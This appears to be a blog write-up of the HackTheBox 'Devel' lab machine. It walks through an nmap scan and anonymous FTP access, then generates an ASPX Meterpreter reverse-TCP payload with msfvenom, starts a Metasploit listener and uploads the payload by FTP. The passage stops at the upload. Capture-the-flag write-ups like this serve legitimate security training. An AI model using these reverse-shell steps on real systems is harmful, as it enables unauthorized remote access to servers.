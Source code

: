 ```yaml
---
title: 'HachTheBox - Devel'
date: '2021-10-04 14:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/devel/devel.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```



Firstly we begin with our NMAP scan. From our scan results we see that ports 21 (ftp) & 80 (http) are open. My first obvservation is that anonymous login is permitted on the FTP server.

![nmap-scan-results](/assets/img/devel/devel-nmap.png)

Before attempting to connect to FTP, I'd like to take a look at what the web server on port 80 is serving up so in a browser I navigate to "http://10.10.10.5". We see a default webpage for IIS Microsoft webserver. To save time I'll skip the step of running Dirbuster, which I would normally do at this point to see if I can bruteforce any hidden directories.

![iis-webpage](/assets/img/devel/iis7.png)

As the FTP server allows for anonymous login, my next step is to connect to it as I am going to attempt to upload a malicious file that I can execute via the web service. The anonymous login is successfull.

![iis-webpage](/assets/img/devel/ftp-in.png)

We're going to set up a listener via Metasploit, but first we need to upload a malicious file that will connect back to our listener. We navigate to this cheatsheet page "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/" in a browser. As we're dealing with a Microsoft webserver we need to locate the payload for the file type of ASP. Under Web Payloads we see the ASP Meterpreter Reverse TCP snippet - ```msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp```.

![iis-webpage](/assets/img/devel/cheatsheet.png)

We use the cheat sheet snippet with ```msfvenom``` to create the payload. Replacing LHOST with your tun0 IP. I also changed the file extension to ASPX, either ASP or ASPX will work, but make sure the file extension in the command and the extension of the file your putting it in a re the same. This will take a few seconds to generate. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f aspx > ex.aspx```.

![iis-webpage](/assets/img/devel/venom.png)

We fire up Metasploit using ```msfconsole``` and enter ```use exploit/multi/handler``` to begin opening up a listener. 

![iis-webpage](/assets/img/devel/use-multi-handler.png)

We need to reconfigure the options. This requires setting the payload to the same as we used for the malicious reverse shell file we generated with ```msfvenom```. We also need to set the ```LHOST``` to the same IP as we used, which is the IP of our tun0 network interface. We enter ```run``` to start the listener.

![iis-webpage](/assets/img/devel/set-options-run.png)

Now we need to upload our malicious file. We connect to the FTP server with ```ftp 10.10.10.5```

![iis-webpage](/assets/img/devel/ftp-in.png)

And upload our file to the server with ```put ex.aspx```.

![iis-webpage](/assets/img/devel/ftp-in.png)











